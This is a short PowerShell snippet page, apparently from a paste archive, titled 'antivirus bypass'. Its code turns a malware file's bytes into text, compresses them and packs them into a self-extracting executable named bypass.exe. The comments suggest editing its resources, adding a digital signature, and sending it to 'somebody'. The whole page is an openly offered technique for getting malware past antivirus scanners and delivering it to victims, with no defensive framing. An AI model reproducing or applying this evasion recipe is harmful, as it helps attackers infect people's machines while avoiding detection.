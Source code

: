 ﻿---
pid:            4951
parent:         0
children:       
poster:         greg zakharov
title:          antivirus bypass
date:           2014-03-02 15:52:24
description:    
format:         posh
---

# antivirus bypass

### [download](4951.ps1)  



```posh
[String]::Join(' ', [IO.File]::ReadAllBytes(#malware)) | Out-File -enc ASCII raw
&7za a -mx9 raw.zip raw
&cmd copy /b raw.zip + ZipSFX + ReverseActions bypass.exe
#optional:
#1) edit bypass.exe with resource editor
#2) add digital signature
#at last do not forget send it somebody
```
